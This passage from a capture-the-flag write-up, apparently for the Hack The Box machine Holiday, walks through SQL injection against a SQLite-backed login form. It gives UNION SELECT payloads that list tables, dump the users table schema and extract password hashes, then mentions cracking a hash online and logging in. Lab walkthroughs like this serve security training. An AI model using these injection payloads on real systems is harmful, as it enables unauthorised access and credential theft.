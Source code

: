 
Using this, I can easily find out the table names within this database. 

```sql
"))UNION SELECT 1,group_concat(tbl_name),3,4 FROM sqlite_master --
```

This produced `users,sqlite_sequence,notes,bookings,sessions,sessions`. Now, I can enumerate the columns in `users`. 

```sql
"))UNION SELECT 1,group_concat(sql),3,4 FROM sqlite_master WHERE type!="meta" AND sql NOT NULL AND name="users"--
```

This produces `CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,active TINYINT(1))` as the output, meaning there's a password column. Extracting the password can be done using `"))UNION SELECT 1,group_concat(password),3,4 FROM users--`.

This produces the hash:

![](../../../.gitbook/assets/htb-holiday-image-8.png)

This hash can be cracked using Crackstation:

![](../../../.gitbook/assets/htb-holiday-image-9.png)

And with that, I can login to the interface:
